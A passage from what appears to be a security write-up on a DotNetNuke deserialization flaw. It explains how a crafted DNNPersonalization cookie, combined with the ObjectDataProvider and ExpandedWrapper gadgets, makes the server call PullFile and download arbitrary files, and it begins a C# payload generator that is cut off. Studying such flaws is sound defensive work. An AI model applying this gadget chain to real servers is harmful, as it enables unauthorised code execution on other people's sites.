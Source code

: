 The gist of DotNetNuke's vulnerability discussed in the presentation above is
that, provided a cookie named `DNNPersonalization` in XML format to a
nonexistent API endpoint, the DotNetNuke user profile business logic would
attempt to deserialize the contents and convert them to objects for storage in
a hash table, likely to load particular user profile information and display it
later.

The most interesting part about this vulnerability is that no type checking is
conducted on the object types stored within the XML data before
deserialization. If some type checking _was_ done prior to deserialization,
it's likely this vulnerability would be much more difficult to abuse.

### Gaining code execution

Plenty of gadgets are mentioned in the "JSON Attacks" presentation, but the
prime example used to gain code execution is the
[ObjectDataProvider](https://learn.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider?view=netframework-4.7.2)
class. The **ObjectDataProvider** class allows us to wrap an arbitrary object
and call its methods, as well as provide parameters for these methods. This
class is used to created binding sources, objects that provide programmers with
relevant data and are bound to a target object, e.g. a TextBox, ComboBox, etc.,
to display data.

For code execution, since we can't call arbitrary methods of existing classes
directly, we use the **ObjectDataProvider** class as a gadget to load and
execute classes with methods of interest, e.g. the
**DotNetNuke.Common.Utilities.FileSystemUtils.PullFile** method that DotNetNuke
uses to download files from arbitrary internet locations.

Unfortunately, during deserialization with the **XmlSerializer** class, while
the **ObjectDataProvider** class is recognized by the deserialization routine,
**XmlSerializer** doesn't understand the object reference to the
**FileSystemUtils** within the class attribute. To remedy this, we can use
another gadget, the
[ExpandedWrapper](https://learn.microsoft.com/en-us/dotnet/api/system.data.services.internal.expandedwrapper-2?view=netframework-4.7.2)
class, to provide a generic class for deserialization by the **XmlSerializer**
class. Ultimately, this enables us to deserialize an **ObjectDataProvider**
class with our specified target class, **FileSystemUtils**, and our method(s),
for code execution, **PullFile**.

Below is a snippet of C# code targeting the .NET Framework, using these gadgets
to generate XML that can be deserialized by the **XmlSerializer** class to
download arbitrary files to the host via HTTP:

```csharp
using System;
using System.IO;
using DotNetNuke.Common.Utilities;
using System.Collections;
using System.Data.Services.Internal;
using System.Windows.Data;

namespace ExpWrapSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            Serialize();
        }
        public static void Serialize()
        {
            ExpandedWrapper<FileSystemUtils, ObjectDataProvider> myExpWrap = new ExpandedWrapper<FileSystemUtils, ObjectDataProvider>();
```